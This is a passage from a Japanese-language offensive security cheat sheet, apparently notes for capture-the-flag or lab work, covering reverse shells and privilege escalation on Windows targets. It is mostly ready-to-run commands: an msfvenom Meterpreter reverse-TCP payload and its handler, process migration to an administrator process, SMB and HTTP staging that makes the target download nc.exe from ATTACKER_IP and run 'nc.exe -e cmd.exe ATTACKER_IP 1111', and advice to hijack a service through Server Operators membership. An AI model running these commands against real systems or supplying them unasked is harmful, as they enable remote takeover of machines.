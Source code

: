 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shellx86.exe
```
何かしらの方法でターゲットにスクリプトをアップロード
metasploitを用いて待受ポートを起動
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
run
```
何かしらの方法でアップロードしたスクリプトを管理者権限で実行
プロセス一覧を確認して管理者権限のプロセスに移動
```bash
ps
migrate PID
shell
```
### SMBの簡易サーバを立ち上げてリバースシェルを構築
smbserverを用いてローカルでSMBサーバを立ち上げる。
```bash
smbserver.py SHARE_NAME SHARED_FOLDER_PATH -smb2support -username USER_NAME -password PASSWORD
```
上のコマンドでSMBサーバを立ち上げた後、攻撃対象からSMBサーバへは以下のコマンドでアクセス。
```powershell
net use \\ATTACKER_IP\SHARE_NAME /user:USER_NAME PASSOWORD
```
リバースシェルを構築する場合はローカルから `nc64.exe` をアップロードして攻撃対象からローカルの待受ポートにアクセスする。
```powershell
copy \\ATTACKER_IP\SHARED_FOLDER\nc64.exe \programdata\nc.exe
\programdata\nc.exe -e cmd ATTACKER_IP PORT_NUMBER
```
### pythonでHTTPサーバを立ち上げてリバースシェルを構築
pythonを用いてローカルの `nc.exe` があるディレクトリでHTTPサーバを立ち上げる。
```powershell
python3 -m http.server 8080
```
攻撃対象でcurlを用いてncをダウンロードして実行。
```powershell
cd \programdata
curl http://ATTACKER_IP:8080/nc.exe -o nc.exe
```
ローカルでリバースシェル用のポートを立ち上げる。
```powershell
rlwrap nc -nlvp 1111
```
攻撃対象でncを実行。
```powershell
nc.exe -e cmd.exe ATTACKER_IP 1111
```
あるいはpowershellを実行しても良い。
```powershell
nc.exe -e powershell.exe ATTACKER_IP 1111
```
## 5. 権限昇格 (Privilege Escalation)
- **`whoami /all` でユーザの所属グループや権限を確認**
- **`tasklist` で怪しいアプリケーションを探す**
    - リモート接続のアプリケーションなど
    - 怪しいアプリケーションがある場合は既知の脆弱性がないか検索
    - 怪しいアプリケーションをの具体的な中身は `C:\Program Files` を参照。
- **とりあえずwinPEASを実行してみる**
- **Server Operatorsグループに属している場合はサービスを編集することができるので、 `sc` コマンドを用いてVSSのような管理者権限で動作するデフォルトのサービスの実行パスを変更してリバースシェルを確立可能**